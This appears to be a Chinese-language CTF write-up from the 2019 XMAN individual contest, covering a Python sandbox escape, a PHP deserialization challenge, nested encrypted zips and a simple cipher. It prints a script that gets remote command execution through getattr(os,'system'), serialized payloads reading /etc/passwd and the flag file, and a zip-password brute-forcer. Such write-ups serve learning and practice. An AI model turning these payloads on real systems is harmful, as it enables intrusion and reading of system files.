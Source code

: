 date: 2020-04-20
categories:
- 比赛
tags:
- wp
title: 2019xman个人排位赛wp
---
## escape

收获:了解了python沙箱逃逸这种类型

getattr:对沙箱逃逸有很大作用





list(s)获得字符集,可以用来绕过引号限制

试了一下system

```python
banned=  ["'", '"', '.', 'reload', 'open', 'input', 'file', 'if', 'else', 'eval', 'exit', 'import', 'quit', 'exec', 'code', 'const', 'vars', 'str', 'chr', 'ord', 'local', 'global', 'join', 'format', 'replace', 'translate', 'try', 'except', 'with', 'content', 'frame', 'back']
```

发现引号和点都被过滤了,不过提示说

```python
def hello():
   os.system("echo hello")
```



说明是可以通过调用system来完成,接下来就是想办法得到system函数了

而引号被过滤可以用字符串s里的值来绕过



```python
#考虑这样来
a=getattr(os,'system')
a("命令")
```

```python
def get_str(string):
    result=''
    for i in string:
        result+='table['+str(table.index(i))+']+'
    return result[:-1]
conn=remote('47.97.253.115',10005)
conn.sendline('table=list(s)')
conn.sendline('sys='+get_str('system'))
conn.sendline('fun=getattr(os,sys)')
while 1:
        command=input('(www):$')
        new_com='fun('+get_str(command)+')'
        conn.sendline(new_com)
        print(conn.recvuntil('>>>'))
conn.close()

```



flag{4EEAA88DA0B3207862D2E4876AF84A3D}

## strange_ssid

这题是结束听别人讲的

所有的数据都是32个字符

所以猜测是md5加密

找出符合md5格式的数据

68dffd5a1be838b5326209714f7ea7a5

解密后提交flag{n3k0}失败

直接提交flag{68dffd5a1be838b5326209714f7ea7a5}试试

成功

## **ezphp**



收获:知道了curl_exec 本地文件读取

```php
<?php

class Hello {
    protected $a;

    function test() {
        $b = strpos($this->a, 'flag');
        if($b) {
            die("Bye!");
        }
        $c = curl_init();
        curl_setopt($c, CURLOPT_URL, $this->a);
        curl_setopt($c, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($c, CURLOPT_CONNECTTIMEOUT, 5);
        echo curl_exec($c);
    }
    
    function __destruct(){
        $this->test();
    }
}

if (isset($_GET["z"])) {
    unserialize($_GET["z"]);
} else {
    highlight_file(__FILE__);
}
```



curl_exec+反序列化

试了下本地文件读取

O:5:"Hello":1:{s:1:"a";s:27:"file://localhost/etc/passwd";}

![image1967](http://ww1.sinaimg.cn/large/006pWR9agy1g5uwj7l0c4j30wp0ax407.jpg)

题目过滤flag字符

说明我们flag就在flag文件里

谷歌看了好久，后来看一道又curl_exec的题目，获得了url二次编码的思路

最后的payload:

http://47.97.253.115:10006/?z=O:5:%22Hello%22:1:{s:1:%22a%22;s:23:%22file://localhost/%2566lag%22;}

这里有一些坑就是:

1. 你不知道flag文件在哪个文件夹,结果最后就在根目录。。

2. 因为是二次编码所以要注意字符串的长度



## **onion's_secret**

下载得到一个压缩包，常规的检查走一遍

发现onion.jpg文件尾后还有数据

![image2357](http://ww1.sinaimg.cn/large/006pWR9agy1g5uwp2ulyrj30jj079dif.jpg)

zip格式,get一个新的加密压缩包

密码在hint里有提示

接下来就是很普通的写python了

```python
import zipfile
def burp(filename,hint):
    password=''
    i=0
    for i in range(32,128):
        password=hint.replace('?',chr(i))
        with zipfile.ZipFile(filename) as myzip:
            try :
                print("解密:"+filename+":"+password)
                myzip.read('onion.zip',pwd=bytes(password,encoding='ascii'))
                break
                return password
            except RuntimeError: 
                print("解密失败")
            except FileNotFoundError:
                input('过来康康')
            except zipfile.zlib.error:
                print("跳过")
    if i==127:
        print("爆破失败")
        exit()
    print('爆破成功'+password)
    return password

def writebyte(bbyte,filename):
    f=open(filename,'wb')
    f.write(bbyte)
    f.close()
def readbyte(filename):
    f=open(filename,'rb')
    bbyte=f.read()
    f.close()
    return bbyte

nullbyte=b''
while 1:
    f=open('temp.txt','r')
    hint=f.read()[12:]
    f.close()
    pwd=burp('onion1.zip',hint)
    
    with zipfile.ZipFile('onion1.zip') as myzip:
        str=myzip.read('onion.zip',pwd=bytes(pwd,encoding='ascii'))
        writebyte(str,"temp.zip")
        str=myzip.read('hint.txt',pwd=bytes(pwd,encoding='ascii'))
        writebyte(str,"temp.txt")
    writebyte(readbyte('temp.zip'),'onion1.zip')
    

```

## **commom_encrypt**

读代码就完事了

```python
def encrypt(data,groupnums):
    a=[]
    b=[]
    section=int(len(data)/groupnums)
    for i in range(0,len(data),section):
        a.append(data[i:i+section])
    for i in range(section):
        for j in range(groupnums):
            b.append(a[j][i])
    cipher=(''.join(chr(ord(b[i])^i) for i in range(len(b))))
    return cipher
def decrypt(data):
    result=[]
    for i in range(1,len(data)+1):
        result.append(encrypt(data,i))
    return result

may_r=decrypt('f^n2ekass:iy~>w|`ef"${Ip)8if')
for i in may_r:
    print(i[::2]+i[1::2])
```




